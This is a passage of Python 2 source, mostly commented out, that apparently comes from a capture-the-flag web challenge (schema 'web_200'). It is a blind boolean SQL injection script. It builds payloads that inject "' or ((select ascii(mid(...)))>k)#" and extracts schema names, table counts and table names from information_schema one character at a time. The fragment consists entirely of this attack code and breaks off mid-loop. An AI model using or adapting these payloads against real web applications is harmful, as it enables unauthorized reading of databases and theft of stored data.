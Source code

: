 ```
	# 		payload = "nishigeshenmegui' or ((SELECT length(SCHEMA_NAME) from information_schema.SCHEMATA limit " + str(i) + ",1)>" + str(j) + ")#"

	# 		if test(payload):
	# 			database_length = j
	# 		 	break

	# 	print "[*]dababase_length: "+ str(database_length)

	# 	database = ""
	# 	for j in xrange(database_length):
	# 		for r in xrange(7):
	# 			pass
	# 		for k in range(30,130):
	# 			payload = "nishigeshenmegui' or ((select ascii(mid((SELECT SCHEMA_NAME from information_schema.SCHEMATA limit " + str(i) + ",1),"+ str(j) +",1)))>" + str(k) + ")#"

	# 			if test(payload):
	# 				database += chr(k)
	# 			 	break

	# 	print "[*]database:"+database


	# for i in xrange(30):
	# 	payload = "nishigeshenmegui' or ((SELECT COUNT(*) from information_schema.TABLES where TABLE_SCHEMA = 'web_200' limit 0,1)>" + str(i) + ")#"

	# 	if test(payload):
	# 		table_number = i
	# 	 	break
		
	# print "table_number:" + str(table_number)
	# table_number = 2

	# for i in range(0,table_number):
	# 	# for j in xrange(50):

		# 	payload = "nishigeshenmegui' or ((SELECT length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'web_200'  limit " + str(i) + ",1)>" + str(j) + ")#"

		# 	if test(payload):
		# 		table_length = j
		# 	 	break

		# print "[*]table_length: "+ str(table_length)

		# table_length = 14
		# table = ""
		# for j in range(11,table_length):
		# 	for k in range(50,130):
		# 		payload = "nishigeshenmegui' or ((select ascii(mid((SELECT TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'web_200'  limit " + str(i) + ",1),"+ str(j + 1) +",1)))>" + str(k) + ")#"

		# 		if test(payload):
		# 			table += chr(k)
		# 			print table
		# 		 	break

	# 	# print "[*]table:" + table
	# for i in xrange(30):
```